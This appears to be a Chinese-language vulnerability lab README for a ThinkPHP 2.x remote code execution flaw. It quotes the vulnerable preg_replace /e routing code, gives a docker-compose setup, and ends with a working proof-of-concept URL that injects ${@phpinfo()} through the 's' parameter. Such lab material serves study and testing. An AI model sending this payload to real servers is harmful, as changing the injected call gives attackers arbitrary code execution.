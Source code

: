 # ThinkPHP 2.x 任意代码执行漏洞

ThinkPHP 2.x版本中，使用`preg_replace`的`/e`模式匹配路由：

```php
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```

导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

ThinkPHP 3.0版本因为Lite模式下没有修复该漏洞，也存在这个漏洞。

## 环境搭建

执行如下命令启动ThinkPHP 2.1的Demo应用：

```bash
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/Index/Index`即可查看到默认页面。

## 漏洞复现

直接访问`http://your-ip:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D`即可执行`phpinfo()`：

![](1.png)
